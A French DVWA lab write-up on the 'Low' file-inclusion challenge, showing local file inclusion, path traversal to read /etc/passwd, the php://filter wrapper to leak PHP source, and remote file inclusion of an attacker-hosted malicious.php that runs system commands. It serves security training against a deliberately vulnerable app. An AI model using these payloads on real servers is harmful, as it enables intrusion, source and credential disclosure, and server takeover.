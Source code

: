 # Niveau "Low"

Ce challenge nous propose une première page permettant d'accéder à trois fichiers nommés respectivement "file1.php", "file2.php" et "file3.php" :

![](../../../../.gitbook/assets/d513ac6fd858482c45cf09f35f0593d7.png)

Dont voici le contenu du fichier "file1.php" :

![](../../../../.gitbook/assets/8be03bac1ed4c2ab6587df1fdef97d28.png)

Du fichier "file2.php" :

![](../../../../.gitbook/assets/974fe5f5ca7d43775430e06a87646d24.png)

Ainsi que de "file3.php" :

![](../../../../.gitbook/assets/a701d84bd50ba8b731ee7c735e68f7ce.png)

****

**Local File Inclusion (LFI)**

Ce qui est important de **** repérer **** ici, c'est que le nom du fichier à inclure se retrouve en tant que valeur du paramètre `page` présent dans l'URL :

![](../../../../.gitbook/assets/3a508a736095328be32d907b97cb7749.png)

__

_Inclusion d'un fichier local du même niveau d'arborescence_

Une première attaque va consister à inclure des pages localement présentes, soit une LFI. Avec, dans un premier temps, un fichier au même niveau de l’arborescence :

![](../../../../.gitbook/assets/d6b64cb00929508c36c0d672cd144f56.png)

__

_Inclusion d'un fichier local en utilisant une attaque de type path traversal_

Ou alors, de sortir du niveau courant de l'arborescence et d'utiliser dans le même temps une autre attaque nommée path traversal (ou directory traversal). Cette attaque consiste à injecter des occurrences de type `../` (ou équivalent) afin de remonter l’arborescence du système vulnérable :

![](../../../../.gitbook/assets/90195f7432883cf0d78823d0f5c7aeeb.png)

{% hint style="info" %}
Il est possible sous DVWA en niveau "Low" d'utiliser directement la syntaxe `?page=/etc/passwd` mais cela peut ne pas fonctionner suivant l'application ou le système cible
{% endhint %}



_Utilisation des wrappers PHP_

Lorsqu'une vulnérabilité LFI est détectée, il peut être utile, si cela est possible, d'utiliser les wrappers PHP afin d'avoir plus d'impact. Par exemple, le wrapper `php://filter` peut être utilisé pour récupérer le code source des pages `.php` . Dans l'exemple suivant, on récupère le code source (en haut de la page, encodé en base64) de la page `include.php` :

```http
?page=php://filter/convert.base64-encode/resource=include.php
```

![](../../../../.gitbook/assets/df136bf6f7dfc8bc478d6d12001362e5.png)

Une fois décodée (il s'agit juste d'un extrait) :

![](../../../../.gitbook/assets/ecc0129a677c8961d5f67ff64613be82.png)

D'autres wrappers sont intéressants à exploiter et peuvent mener à une RCE.



**Remote File Inclusion (RFI)**

Une RFI survient quand il est possible d'injecter/d'inclure un fichier distant. Ici un exemple simple est l'inclusion de la page `google.fr` :

```http
?page=http://www.google.fr
```

![](../../../../.gitbook/assets/d275ac6038a70e54f0a0e18ec0b2daa8.png)

Cette attaque peut permettre d'inclure un script malicieux distant (hébergée sur une machine contrôlée par l'attaquant). L'exemple ici ne fera que retourner le nom de la machine (qui est, dans notre cas, l'identifiant de l'instance docker) :

{% code title="malicious.php" %}
```php
<?php
  system('hostname');
?>
```
{% endcode %}

![](../../../../.gitbook/assets/8e56ab467f02f4a731a6aa507973589e.png)

Cela mène donc à une prise de contrôle du serveur.

{% hint style="info" %}
Cela ne s'arrête pas là mais les possibilités sont vastes : récupération d'un shell plus complet, maintien de l'accès, tentative d'élévation de privilèges, pivotage, ...
{% endhint %}
